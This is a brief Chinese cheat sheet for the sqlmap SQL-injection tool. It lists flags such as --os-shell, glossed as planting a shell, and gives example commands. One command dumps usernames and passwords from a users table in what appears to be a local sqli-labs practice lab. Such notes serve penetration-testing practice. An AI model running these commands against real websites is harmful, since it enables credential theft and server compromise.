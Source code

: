 ```sql
● --os-shell  上马
● --level=5   搜索等级5
● --current-db 跑出当前数据库名字

例：
 python sqlmap.py -r request.txt --batch --dbs
 python sqlmap.py -u url --batch --dbs
 python sqlmap.py -u "http://127.0.0.1/sql/Less-1/?id=1" --dbms=MySQL --technique=T -v 3 -D security -T users -C username,password --dump
```

